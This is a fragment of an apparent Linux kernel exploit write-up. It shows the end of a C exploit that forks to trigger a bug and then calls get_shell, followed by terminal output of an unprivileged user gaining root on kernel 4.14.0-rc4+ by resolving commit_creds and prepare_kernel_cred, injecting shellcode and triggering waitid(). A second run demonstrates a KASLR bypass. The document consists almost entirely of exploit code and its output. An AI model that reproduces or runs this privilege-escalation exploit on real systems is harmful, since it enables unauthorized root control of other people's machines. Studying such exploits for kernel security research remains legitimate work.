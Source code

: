 ```c
    perror("waitpid()");
    return EXIT_FAILURE;
  }

  pid = fork(); // Trigger

  if (pid > 0) get_shell();
  return EXIT_SUCCESS;
}
```
```c
/ $ id
uid=1001(zero) gid=1001(zero) groups=1001(zero)
/ $ ./exp 0xffffffff81000000 0
[*] Kernel Version : 4.14.0-rc4+
[+] Kernel Base           : 0xffffffff81000000
[+] prepare_kernel_cred   : 0xffffffff810753d0
[+] commit_creds          : 0xffffffff81075050
[+] have_canfork_callback : 0xffffffff81f3f45a
[*] Stage 1 - Try to allocate 0x0
[*] Stage 2 - Inject shellcode
[*] Stage 3 - Trigger waitid()
/ # id
uid=0(root) gid=0(root)
```

[+] Plus

```c
zero@ubuntu:~/Desktop/kaslr_bypass$ ./exp 0
[*] Kernel Version : 4.13.4-041304-generic
[+] Kernel Base           : 0xffffffffa0a00000
...
zero@ubuntu:~/Desktop/kaslr_bypass$ sudo cat /proc/kallsyms | grep _text | head -n 1
ffffffffa0a00000 T _text
```

**End**
